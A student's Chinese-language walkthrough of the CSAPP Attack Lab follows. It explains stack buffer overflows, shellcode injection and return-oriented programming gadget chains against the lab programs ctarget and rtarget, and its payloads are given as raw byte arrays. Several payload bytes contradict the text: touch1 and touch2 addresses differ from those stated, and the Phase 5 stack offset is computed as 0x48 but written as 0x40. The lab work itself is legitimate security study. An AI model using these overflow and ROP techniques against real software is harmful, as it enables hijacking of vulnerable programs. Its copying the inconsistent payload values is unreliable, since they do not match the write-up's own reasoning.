




# Lab3

## Part 1

## Phase 1

在 `ctarget` 中从 `getbuf` 函数进入 `touch1` 函数。

首先要了解函数调用和返回，与栈空间的关系。

在本实验的情境下，栈空间有这样的结构



正常流程下：

1. `call` 指令会将自身的下一句指令的地址压入栈中，作为未来的返回地址，紧接着将寄存器 `%rip` 指向要调用的函数的入口，将控制转移到该函数。
2. `ret` 指令会弹出栈顶中存储的 `8` 字节数值，作为返回地址，将 `%rip` 指向它并将控制转移到这个地址。
3. 流程如下，省略了函数中部分无关指令

```s
                        0000000000401968 <test>:
                        401968: sub  $0x8,%rsp        1. push 0x401976 to stack
                        40196c: mov  $0x0,%eax           movq 0x4017a8 to %rip
                        401971: call 4017a8 <getbuf>  >--------------------+
+-------------------->  401976: mov  %eax,%edx                             |  
|                       401978: mov  $0x403188,%esi                        |
|                       ...                                                |
|                                                                          |
|                       00000000004017a8 <getbuf>:  <----------------------+
|                       4017a8: sub  $0x28,%rsp        |
|                       4017ac: mov  %rsp,%rdi         |    
|                       4017af: call 401a40 <Gets>     |
|                       4017b4: mov  $0x1,%eax         | 2. Running getbuf function
|                       4017b9: add  $0x28,%rsp        |
+--------------------<  4017bd: ret                    v
3. pop 0x401976 from stack
    movq it to %rip                        ...
```

目的是在 `getbuf` 函数中输入字符串，使得它不会在 `0x4017bd` 处 `ret` 时回到 `test` 函数，而是直接进入 `touch1` 函数。

由于 `ret` 指令会从栈顶获取返回地址作为控制转移的目标，因此如果可以将栈顶地址篡改为 `touch1` 函数的入口地址，则可以直接进入 `touch1` 函数。

注意到 `getbuf` 函数中输入的字符串正是存放在栈中，和返回地址紧邻，如果输入的字符串足够长，会直接发生数组越界，覆盖掉栈深处的其它信息，其中首当其冲的便是 `getbuf` 的 `ret` 的返回地址。

因此便需要输入这样的字符串，前 `40` 个字节可以任意填写，用于填充字符数组，接下来需要额外输入 `8` 字节的一个地址，使返回地址成为 `touch1` 函数的地址 `0x4017c0`。

即如下结构



另外注意小端法机器，低位数字在低位地址，因此需要输入的地址需要倒序排列。

字符串中每个字符内容如下（以 `16` 进制的 `ascii` 码表示）：

```c
buf[40] = { /* Phase 1 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 40 字节为填充字符，内容任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch1 函数的地址 */
}
```

使用 `hex2raw` 将这串十六进制数字转化为文本作为输入即可

## Phase 2

整体目标和 `Phase 1`接近，但是需要在进入函数前将 `%rdi` 置为 `cookie` 值，即 `0x59b997fa`

因此需要在串中注入一段指令并使得程序先执行这段指令，再进入 `touch2`。

使用手册中给出的方法，首先写好指令的汇编码，再利用 `gcc` 和 `objdump` 得到它的二进制机器码。

汇编码和机器码如下

```asm
    movq $0x59b997fa, %rdi
    48 c7 c7 fa 97 b9 59
```

要将它注入程序中，最显而易见的方式便是在输入字符串中输入这串数字（的 `ascii` 码对应的字符）。

接下来要关注的便是如何使程序按照设想的方式转移控制。

唯一能利用的篡改控制转移的方法仍然是篡改 `ret` 获取的返回地址。但这次需要进行两次控制转移。一次是转移到注入的指令处，第二次是转移到 `touch2`。

要实现第一次转移，只要使（在`getbuf` 中执行 `ret` 之前）栈顶返回地址为注入指令的地址，但要实现第二次转移，即从注入指令转移到 `touch2`，需要使这时的栈顶为 `touch2` 的地址。

很有用的事实是，`ret` 函数除了会将栈顶内容存入 `%rip` 外，还会将它从栈顶弹出，这样，栈顶自然成为它之后的下一个数字。

也就是说，如果将两个地址先后放在数组后面，在第一次转移前栈顶为注入指令的地址，转移后栈顶便会自然指向 `touch2`，在注入指令中添加上 `ret`，它会自然得到 `touch2` 的地址，并进入 `touch2`。

也就是如下的汇编码

```asm
movq $0x59b997fa, %rdi
ret
```

得到的机器码为

```asm
0:  48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:  c3                      ret
```

将它写入输入字符串中，`40` 字节后加上它的地址（字符数组的地址）与 `touch2` 的地址。

> *如何获取注入指令的地址？*

注意到，输入的字符串也是存在栈中的，在输入完成之后（执行其它指令之前），它的地址就是栈顶地址。

使用 `gdb` 进入程序，在 `getbuf` 时使用 `print $rsp` 便可获得字符串地址。当然，也可以使用 `x/s $rsp` 测试。



得到 `%rsp` 的值，将它加上注入指令在字符串中的位置（偏移量），便得到注入指令的位置，将它放在串的后面。最简单的情况当然就是指令在字符串的开头，地址正是 `%rsp`。

结构如下



***再次注意小端法！！***

```c
buf[40] = { /* Phase 2 */
    0x48, 0xC7, 0xC7, 0xFA, 0x97, 0xB9, 0x59, 0xC3, /* 这 8 字节为注入指令 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 以下 32 字节内容任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```

## Phase 3

这次同样需要将 `%rdi` 修改，但是需要改成一个地址，而这个地址指向的是存放有 `cookie` 的字符数组。

指令注入与转移部分保持不变，这次要考虑 `cookie` 数组的存放位置，只要将这个位置（替代 `Phase 2` 中 `cookie` 本身）存入 `%rdi` 中即可。

很显然的，`cookie` 数字直接放在输入串中即可，当然还有结尾的 `'\0'`。

再将串中注入的 `movq` 指令的操作数，从 `cookie` 本身，改为对应的地址。

关于 `cookie` 地址的获取，由于同样是在输入串中，和 `Phase 2` 中指令地址的获取并无不同，只需确保它们在输入串中的位置，和地址的偏移量正确即可。

假设 `cookie` 串在输入串的**下标** `8` 的位置，那么 `movq` 的操作数便是 `%rsp + 8`，输入串末尾的返回地址同理，根据注入指令的位置做适当的偏移即可。

```c
buf[40] = { /* Phase 3 ver.1*/
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00, /* 这里是 cookie */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```

提交，发现不对

> ?

回头思考，`8` 位的 `cookie` 应该是 `8` 字节长，但却只用了 `4` 字节。原来是应该把数字用 `ascii` 码转化为字符形式作为输入，错误的直接用数字本身输入了。

使用命令 `man ascii` 查看 `ascii` 码表，将其对应得放入输入串中即可。

```c
buf[40] = { /* Phase 3 ver.2 */
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xBE, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
}
```

提交仍然报错，而且这次的报错信息（`Misfire` 后括号中的输入函数的变量内容）和上次相同 `??aU` 。

说明和具体输入串内容无关，应该是在某处，输入串被修改为其它内容，导致后续判断不通过。

重新回看手册，发现在 `Phase 3` 部分有一个另外的函数 `hexmatch`，函数目的是检查输入的串和数字是否相符。其中函数创建了 `char cbuf[110]`，用于随机化对比串。

函数在 `touch3` 中被调用，此时 `getbuf` 中的 `buf` 数组已不在栈中，现在的 `touch3` 以及其调用的 `hexmatch`（以及可能的其他函数）都会重新申请栈空间，将原本的内容覆盖掉。

或许找到了出错的原因，`hexmatch` 等函数申请栈空间将存储在 `buf` 数组中的 `cookie` 数组覆盖掉了，导致判断不正确。

此时可以在 `hexmatch` 前后分别检查 `buf` 数组的内容，如果发生变化说明确实是这样的原因


可以看到，`hexmatch` 函数在执行时，`buf` 数组的内容被覆盖掉了，导致判断不正确。

所以 `cookie` 数组不能存在 `buf` 数组里。

> 如何解决？

只需要绕过会被覆盖掉的 `buf` 就好了，那就不要把 `cookie` 数组放在 `buf` 数组里。

由于输入只能向栈深处输入（事实上可以实现在栈外存数据，但较为繁琐），且不能保证 `buf` 数组中的具体安全区域（似乎 `buf` 数组的前 `8` 个字节是安全的，但没尝试，直接选择了放在数组外），因此选择向深处存放 `cookie` 数组。

向输入串结尾的两个返回地址后面继续添加，将 `cookie` 串放在返回地址后面，事实上这里不会被覆盖掉。

*图片省略*

```c
buf[40] = { /* Phase 3 ver.fin */
    0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
}
```

## Part 2

从 `Phase 4` 开始，攻击的程序为 `rtarget`

这个程序相较于 `ctarget`，去除了固定栈空间的操作，使得栈在内存中的位置随机。所以不能使用注入指令的方式，因为找不到指令的地址，不能跳转。

另外，程序将栈空间标记为不可执行，所以即使注入了指令，程序也不会允许栈空间的指令执行。所以原本的注入指令的方法将不可用。

但相对的，程序中提供了一些内置函数，通过将内置函数的指令 “在内部开始” 执行，可以让内置函数有一些额外的效果。

>例如原本的获取特定数值的函数
>
>```c
>void setval_210(unsigned *p)
>{
>    *p = 3347663060U; // 0xc78948d4
>}
>```
>
>它的汇编和机器码指令为
>
>```asm
>0000000000400f15 <setval_210>:
>  400f15:   c7 07 d4 48 89 c7       movl   $0xc78948d4,(%rdi)
>  400f1b:   c3                      retq
>```
>
>正常情况下指令会从 `400f15` 开始解释，整个函数会将传入的指针指向的无符号整型变量赋值为 `3347663060`。但是由于有意设置常数，使得从特定位置开始解释指令会实现不同效果，例如如果从 `400f18` 开始解释，指令 `48 89 c7` 会实现 `movq %rax,%rdi` 的效果，将这样一个 “特殊解释的” 指令，再加上后面的 `c3  ret` 指令，这一段被称作一个 `gadget`。

`rtarget` 中提供了一些类似的函数，需要在函数中寻找不同的 `gadget`，利用函数返回的 `ret` 指令，通过修改返回地址，进而执行各个 `gadget`，实现想要的操作，最终实现攻击效果。

## Phase 4

目标和 `Phase 2` 一样，需要将 `%rdi` 设置为 `cookie` 的值。

首先在 `farm` 中寻找会修改 `%rdi` 的指令。

在手册中给出的 `movl` 和 `movq` 指令机器码表中寻找目的操作数为 `%rdi` 的，再对应到 `farm` 的反汇编码中寻找。实现使用 `gcc` 和 `objdump` 得到 `farm.c` 的反汇编代码。

比如找到的

```asm
00000000004019a7 <addval_219>:                                  
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      ret                    
        # 4019ab: 58                      pop    %rax
        # 4019ac: 90                      nop
        # 4019ad: c3                      ret
```

以及

```asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      ret 
        # 4019a2: 48 89 c7                movq   %rax,%rdi
        # 4019a5: c3                      ret
```

所以如果可以利用 `pop` 将 `%rax` 赋值，再利用 `movq` 赋值给 `%rdi`，即可实现目标。

`pop` 指令的效果是将当前栈顶（`%rsp` 的指向位置）弹出，并赋值给它的操作数，所以 `pop %rax` 会把当前的栈顶赋值给 `%rax`。可以想到这样的流程：

1. 首先利用 `ret` 进入 `0x4019ab`，在这里将栈顶的 `cookie` 弹出；
2. 再 `ret` 到 `0x4019a2`，赋值给 `%rdi`；
3. 然后再 `ret` 到 `touch2` 中完成目标。

和 `Part 1` 使用同样的方法，将需要的内容输入即可，以上三步需要的指令和数值利用数组越界输入。

```c
buf[40] = { /* Phase 4 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /* 这里 40 字节为任意内容 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* 首先 ret 到 0x4019ab */
    0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00,    /* 此时栈顶为 cookie，pop 给 %rax */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* ret 到 0x4019a2，在这里赋值给 %rdi */  
    0xEC, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* 最后 ret 到 touch2 */
}
```

## Phase 5

和 `Phase 3` 相似。将 `%rdi` 赋值为 存储有 `cookie` 字符数组的地址，然后进入 `touch3`。

首先仍然要将数组放在输入串中的某个位置，吸取 `Phase 3` 的教训，将数组放在整个输入串的末尾，但问题就在于如何获得输入串的地址，特别是 `cookie` 数组的地址。

输入串在栈中，因此必然要得到栈地址，即 `%rsp`。直接使用正则表达式搜索 `48 89 e[0-7]`，将 `%rsp` 作为源操作数的 `movq` 指令的 `gadget` 仅找到

```asm
0000000000401a03 <addval_190>:                          
  401a03:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:   c3  
        # 401a06: 48 89 e0                movq   %rsp,%rax
        # 401a09: c3                      ret
```

但这只是栈顶地址，并非字符数组地址，希望获得字符数组地址需要一次偏移量运算，也就要利用提供的 `add_xy` 的完整函数，将栈顶地址和偏移量作为输入计算得到字符数组地址。`add_xy` 接受 `%rdi %rsi` 作为源操作数，返回 `%rax` 作为结果。

所以栈地址仅存放在 `%rax` 中不可行，需要再将它存入 `%rsi` 或 `%rdi` 中，再寻找从 `%rax` 输出的指令，搜索 `89 c[0-7]`，找到

```asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      ret
        # 4019a2: 48 89 c7                movq   %rax,%rdi
        # 4019a5: c3                      ret
```

这时栈地址已经在 `%rdi` 中，还需要获取偏移量并存入 `%rsi`。

获取偏移量仍然要使用 `pop` 指令，直接使用正则表达式搜索 `5[8-f]` 仅能找到 `pop %rbp` 和 `pop %rax` 这两个指令，其中搜索 `89 e[8-f]` 找不到结果，所以 `%rbp` 不能赋值给其它寄存器，只能使用 `pop %rax`，比如 `Phase 4` 中使用的 `0x4019ab`。

没有 `%rsi` 的出现，要用 `mov` 做中转，搜索 `89 c[0-6]`（因为 `89 c7` 是指向 `%rdi` 而它已经被使用了），只能得到 `89 c2  movl %eax,%edx` 这一个结果，它位于

```asm
00000000004019db <getval_481>:                        
  4019db:   b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:   c3      
        # 0x4019dd:  89 c2   movl %eax,%edx        
        # 0x4019df:  90      nop
        # 0x4019e0:  c3      ret
```

搜索 `89 d[0-6]` 只能找到 `89 d1  movl %edx,%ecx`，但在这里有另一件事情需要解决：

>可以找到的 `89 d1` 指令中，不存在 `89 d1` 后跟随 `90  nop` 指令的 `gadget`，可以找到的 `89 d1` 指令如下：
>
>```asm
>00000000004019f6 <getval_226>:
>  4019f6:   b8 89 d1 48 c0          mov    $0xc048d189,%eax 
>  4019fb:   c3                      ret
>        # 4019f7:   89 d1 movl %edx,%ecx
>        # 4019f9:   48 c0 ??? unknown
>        # 4019fb:   c3  ret
>
>0000000000401a33 <getval_159>:
>  401a33:   b8 89 d1 38 c9          mov    $0xc938d189,%eax
>  401a38:   c3                      ret
>        # 401a34:   89 d1 movl %edx,%ecx
>        # 401a36:   38 c9 cmpb %cl,%cl
>        # 401a38:   c3  ret
>
>0000000000401a68 <getval_311>:
>  401a68:   b8 89 d1 08 db          mov    $0xdb08d189,%eax
>  401a6d:   c3                      ret
>        # 401a69:   89 d1 movl %edx,%ecx
>        # 401a6b:   08 db orb %bl,%bl
>        # 401a6d:   c3  ret
>
>0000000000401a6e <setval_167>:                                  
>  401a6e:   c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
>  401a74:   c3                      ret                
>        # 401a70:   89 d1 movl %edx,%ecx
>        # 401a72:   91  ??? unknown
>        # 401a73:   c3  ret
>```
>
>其中第二、三个 `gadget` 在手册中有提及，相当于 `nop` 指令，剩余两个通过查阅资料了解到第一个指令不完整，第三个的 `91` 是交换 `%eax` 和 `%ecx` 的指令 `xchg`，后面会提到，它可以用来缩短答案。

因此从第二、三个 `gadget` 中选择一个，将 `%edx` 赋值给 `%ecx`，仍然需要下一次转移，搜索 `89 c[8-f]` 找到

```asm
0000000000401a25 <addval_187>:
  401a25:   8d 87 89 ce 38 c0       lea    -0x3fc73177(%rdi),%eax
  401a2b:   c3                      ret                       
        # 401a27:  89 ce movl %ecx,%esi
        # 401a29:  38 c0 cmpb %al,%al   ---> 等价于 nop
        # 401a2b:  c3  ret
```

至此，经过 `%rax`，`%edx` 和 `%ecx` 三个寄存器的中转，终于将偏移量赋值给了 `%rsi`，再进入 `add_xy` 函数计算出字符数组地址在 `%rax` 中。再次使用 `0x4019a2` 即可存入 `%rdi`，然后 `ret` 到 `touch3` 完成目标。

综上，先统计需要的 `gadget`：

1. 0x401a06 : `movq %rsp,%rax`
2. 0x4019a2 : `movq %rax,%rdi`
3. 0x4019ab : `pop %rax`
4. 0x4019dd : `movl %eax,%edx`
5. 0x401a34 : `movl %edx,%ecx`
6. 0x401a27 : `movl %ecx,%esi`
7. 0x4019d6 : `add_xy`
8. 0x4019a2 : `movq %rax,%rdi`

总共 `8` 个 `gadget`，恰好和手册中的答案一致。

将它们依次排入输入串中，注意，在 `0x4019ab` 之后，`0x4019dd` 之前，需要输入字符数组相对于 `%rdi` 的偏移值，这样才能在真正执行 `pop` 指令时让偏移值位于栈顶。另外不要忘掉所有 `gadget` 之后需要 `touch3` 的地址 `0x4018fa`。

关于偏移量的值，可以参考栈结构如下


由于，在进入 `gadget 1`，执行指令之前，**`gadget 1` 的地址已经被弹出**， `%rsp` 的指向处于图中 `0x30` 处。`cookie` 的实际地址则在 `0x78` 处，所以偏移量应当为 `0x48`

综上得到输入串如下：

```c
buf[40] = { /* Phase 5 ver 1 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /*  padding */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 1 */
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 2 */
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 3 */
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  offset  */  
    0xDD, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 4 */
    0x34, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 5 */
    0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 6 */  
    0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 7 */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 8 */  
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  touch3  */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61     /*  cookie  */
};
```

至此 `Phase 5` 已经完成。

>但是回到上文说到的 `91  xchg` 指令，它的效果是交换 `%eax` 和 `%ecx`，而刚才的答案中，用上了 `movl %eax,%edx` 和 `movl %edx,%ecx`，两个指令实现了 `%eax` 向 `%ecx` 的转移，是否可以使用一个 `xchg` 指令来代替这两个呢？

找到 `xchg` 指令的地址

```asm
0000000000401a6e <setval_167>:                                  
  401a6e:   c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
  401a74:   c3                      ret                
        # 401a72:   91  xchg %eax,%ecx
        # 401a73:   c3  ret
```

尝试使用 `0x401a72` 地址，代替上述两个 `movl` 指令，因为少了一个指令所以偏移量 `- 0x8`，得到输入串如下：

```c
buf[40] = { /* Phase 5 ver 2 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /*  padding */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 1 */
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 2 */
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 3 */
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  offset  */  
    0x72, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 4 & 5*/
    0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 6 */  
    0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 7 */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 8 */  
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  touch3  */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61     /*  cookie  */
};
```

尝试提交


成功，这个答案比上一个答案少了一个 `gadget`，少了一行的输入。

综上全部的 `Phase` 都已经完成
